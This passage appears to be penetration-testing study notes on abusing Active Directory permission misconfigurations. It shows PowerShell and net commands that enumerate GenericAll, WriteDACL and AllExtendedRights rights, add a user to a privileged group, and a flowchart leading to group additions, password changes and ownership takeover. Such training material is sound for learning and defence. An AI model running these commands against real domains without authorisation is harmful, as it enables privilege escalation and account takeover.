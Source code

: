 ### Exploiting Misconfigured Permissions

**GenericAll Abuse Example:**
```powershell
# Add user to group (requires GenericAll on group)
net group "Management Department" stephanie /add /domain

# Verify membership
Get-NetGroup "Management Department" | select member

# Cleanup (remove from group)
net group "Management Department" stephanie /del /domain
```

### Systematic Permission Enumeration

**Domain-Wide Permission Discovery:**
```powershell
# All objects with GenericAll permissions
Get-ObjectAcl | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select ObjectDN,SecurityIdentifier

# WriteDACL permissions (can modify ACLs)
Get-ObjectAcl | ? {$_.ActiveDirectoryRights -eq "WriteDACL"} | select ObjectDN,SecurityIdentifier

# AllExtendedRights (password changes)
Get-ObjectAcl | ? {$_.ActiveDirectoryRights -eq "AllExtendedRights"} | select ObjectDN,SecurityIdentifier
```

**Group-Focused Enumeration:**
```powershell
# Check permissions on high-value groups
$groups = @("Domain Admins","Enterprise Admins","Schema Admins")
foreach($group in $groups) {
    Get-ObjectAcl -Identity $group | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
}
```

### Permission Enumeration Workflow

```mermaid
flowchart TD
    Start["Object Permission Enum"] --> Target["Select Target Object"]
    Target --> Enumerate["Get-ObjectAcl -Identity"]
    Enumerate --> Filter["Filter by Permission Type"]
    
    Filter --> GenericAll["GenericAll<br/>(Full Control)"]
    Filter --> WriteDACL["WriteDACL<br/>(Modify Permissions)"]
    Filter --> WriteOwner["WriteOwner<br/>(Change Ownership)"]
    Filter --> ExtendedRights["AllExtendedRights<br/>(Password Change)"]
    
    GenericAll --> SIDConvert["Convert-SidToName"]
    WriteDACL --> SIDConvert
    WriteOwner --> SIDConvert
    ExtendedRights --> SIDConvert
    
    SIDConvert --> Analysis["Analyze Principals"]
    Analysis --> Exploit["Exploit Permissions"]
    
    Exploit --> GroupAdd["Add to Groups"]
    Exploit --> PasswordChange["Change Passwords"]
    Exploit --> OwnershipChange["Modify Ownership"]
    
    style Start fill:#e1f5fe
    style GenericAll fill:#ff6b6b
    style Exploit fill:#fff3e0
```